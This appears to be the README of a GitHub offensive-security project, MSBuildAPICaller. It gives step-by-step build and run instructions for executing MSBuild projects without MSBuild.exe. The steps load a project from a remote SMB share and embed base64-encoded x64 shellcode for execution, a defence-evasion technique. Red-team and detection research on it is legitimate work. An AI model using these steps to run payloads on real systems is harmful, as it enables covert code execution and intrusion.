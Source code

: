 # MSBuildAPICaller
 MSBuild Without MSBuild.exe


# How to build and execute

## Step 1: Build IEShim.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs

## Step 2: Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs
## Example: string projectPath = '\\\\192.168.1.100\\share\\msbuildapicaller.csproj';

## Step 3: Replace <Base64 Encoded x64 Shellcode>  with your base64 encoded x64 shellcode in msbuildapicaller.csproj


## Step 4: Replace AssemblyFile variable with the location of your compiled dll from step 1

## Step 5: Build msbuildapicaller.cs
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs

## Step 6: Execute msbuildapicaller.exe

